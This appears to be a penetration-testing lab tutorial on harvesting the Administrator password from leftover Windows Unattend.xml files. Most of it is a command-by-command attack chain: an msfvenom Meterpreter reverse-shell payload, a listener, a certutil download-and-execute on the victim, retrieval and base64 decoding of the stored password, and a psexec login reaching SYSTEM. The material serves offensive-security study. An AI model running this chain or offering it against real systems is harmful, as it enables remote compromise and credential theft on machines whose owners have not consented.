

# Searching For Passwords In Configuration Files

## Explanation

### Windows Configuration Files

- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.

- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.

- This tools utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.

- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

### Unattended Windows Setup

- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information :
    - C:\Windows\Panther\Unattend.xml
    - C:\Windows\Panther\Autounattend.xml

- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

## Technics

### In Kali machine

1. Create meterpreter reverse shell payload :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali-ip> LPORT=1234 -f exe > payload.exe
```

2. Start local web server in actual directory :
```
python -m SimpleHTTPServer 80
```

3. New tab, and start listener : 
```
service postgresql start && msfconsole
msf6 > use multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set LPORT 1234
msf6 > set LHOST <kali-ip>
msf6 > run
```

### In Victim machine

4. Download your payload, and execute :
```
C:\Users\student> cd C:\Users\student\AppData\Local\Temp
C:\Users\student\AppData\Local\Temp>certutil -urlcache -f http://<kali-ip>/payload.exe payload.exe
C:\Users\student\AppData\Local\Temp>.\payload.exe
```

### Unattend.xml file (in Kali machine)

5. We have an meterpreter access in victim machine.

Search and download unattend.xml configuration file in your Kali machine : 
```
meterpreter > search -f unattend.xml
meterpreter > cd C:\\Windows\\Panther
meterpreter > download unattend.xml
```

6. Search AutoLogon balise in xml file, and copy/paste password base64 encoded in new file (password.txt) : 



```
vim password.txt
base64 -d password.txt
```

7. Finally, connect remotely to the victim's machine :
```
psexec.py Administrator@<victim-ip>

Password: <password>

C:\Windows\system32>whoami
nt_authority\system
```